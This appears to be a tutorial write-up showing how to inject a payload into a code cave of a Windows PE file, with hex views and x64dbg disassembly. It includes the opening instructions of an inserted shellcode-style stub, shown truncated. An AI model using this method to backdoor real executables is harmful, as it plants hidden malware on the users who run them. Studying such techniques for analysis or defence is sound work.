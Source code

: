 **HexEdit View**

![General Hex View of PE File](https://hackmd.io/_uploads/HyO1cjLXa.png)

**Code Cave**
![Code Cave](https://hackmd.io/_uploads/HkdJcjLmp.png)

Time to Dive into ***x64dbg*** to dig deeper  

```nasm
entrypoint

00C01140 | E9 97630000              | jmp <pe-deepdive._mainCRTStartup>       |
00C01145 | E9 2DE20100              | jmp <pe-deepdive.private: static bool _ |
00C0114A | E9 FE810000              | jmp <pe-deepdive.___except_validate_jum |
00C0114F | E9 5C1A0500              | jmp <pe-deepdive.bool __cdecl __crt_str |
00C01154 | E9 16F00100              | jmp <pe-deepdive.struct `private: bool  |
00C01159 | E9 E5E20400              | jmp <pe-deepdive.__msize_base>          |
00C0115E | E9 27710000              | jmp <pe-deepdive.___report_gsfailure>   |
00C01163 | E9 65090100              | jmp <pe-deepdive.private: static class  |
00C01168 | E9 4B8D0400              | jmp <pe-deepdive.public: void __thiscal |
00C0116D | E9 23800400              | jmp <pe-deepdive.___fpecode>            |
00C01172 | E9 2D950100              | jmp <pe-deepdive.protected: __thiscall  |
........  
```

```nasm
Code-cave

00C65090 | 0000                     | add byte ptr ds:[eax],al                              |
```

![Untitled 2.png](https://hackmd.io/_uploads/rJu1qjL7p.png)

- We copy our payload and put the same in the code cave.

```nasm
**Modified - Disassembly**
00B27B81 | 60                       | pushad                                  |
00B27B82 | 9C                       | pushfd                                  |
00B27B83 | FC                       | cld                                     |
00B27B84 | 48                       | dec eax                                 | eax:",øï"
00B27B85 | 83E4 F0                  | and esp,FFFFFFF0                        |
00B27B88 | E8 C0000000              | call pe-deepdive.B27C4D                 |
00B27B8D | 41                       | inc ecx                                 | ecx:"éú4"
00B27B8E | 51                       | push ecx                                | ecx:"éú4"
00B27B8F | 41                       | inc ecx                                 | ecx:"éú4"
00B27B90 | 50                       | push eax                                | eax:",øï"
00B27B91 | 52                       | push edx                                | edx:"éú4"
00B27B92 | 51                       | push ecx                                | ecx:"éú4"
00B27B93 | 56                       | push esi                                | esi:"éú4"
00B27B94 | 48                       | dec eax                                 | eax:",øï"
00B27B95 | 31D2                     | xor edx,edx                             | edx:"éú4"
00B27B97 | 65:48                    | dec eax                                 | eax:",øï"
00B27B99 | 8B52 60                  | mov edx,dword ptr ds:[edx+60]           | edx:"éú4"
00B27B9C | 48                       | dec eax                                 | eax:",øï"
00B27B9D | 8B52 18                  | mov edx,dword ptr ds:[edx+18]           | edx:"éú4"
00B27BA0 | 48                       | dec eax                                 | eax:",øï"
00B27BA1 | 8B52 20                  | mov edx,dword ptr ds:[edx+20]           | edx:"éú4"
00B27BA4 | 48                       | dec eax                                 | eax:",øï"
00B27BA5 | 8B72 50                  | mov esi,dword ptr ds:[edx+50]           | esi:"éú4", edx+50:"éÊè\x01"
00B27BA8 | 48                       | dec eax                                 | eax:",øï"
00B27BA9 | 0FB74A 4A                | movzx ecx,word ptr ds:[edx+4A]          | ecx:"éú4"
00B27BAD | 4D                       | dec ebp                                 |
00B27BAE | 31C9                     | xor ecx,ecx                             | ecx:"éú4"
```